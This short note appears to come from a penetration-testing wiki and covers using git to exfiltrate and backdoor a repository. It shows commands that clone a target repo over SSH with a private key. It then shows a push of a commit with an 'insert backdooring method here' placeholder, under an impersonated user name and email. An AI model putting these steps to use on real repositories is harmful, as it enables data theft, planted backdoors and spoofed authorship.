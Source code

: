 # Git-filtration

For more regular usage of of `git` see [[Github-guide]], some of the same command will be listed here to aid in potential data exfiltration, but also privilege escalation method. For the [[Data-Exfiltration-Defined]] requires a method to Exfiltrate, is also capable of resending back to Infiltrate; for the [[Linux-Privilege-Escalation]] or [[Windows-Privilege-Escalation-Vectors]] methods to work requires both Infiltration method and an execution vector in the context of the laterial or elevated privilege. 

## Exfilteration

```bash
# ssh
GIT_SSH_COMMAND='ssh -i /path/id_rsa' git clone git@$ip:/path/to/vulnGit
```

## Infiltration & Backdooring

```bash
cd vulnGit/
# insert backdooring method here
# Consider impersonation attacking the user and email
git log
git config --global user.name ""
git config --global user.email "user@Nomail.(none)" # Without email
# Don't forget to revert, if required
git add -A 
git commit -m "A message in a git repo that aligns with objectives"
# 
GIT_SSH_COMMAND='ssh -i /path/id_rsa' git push origin master
```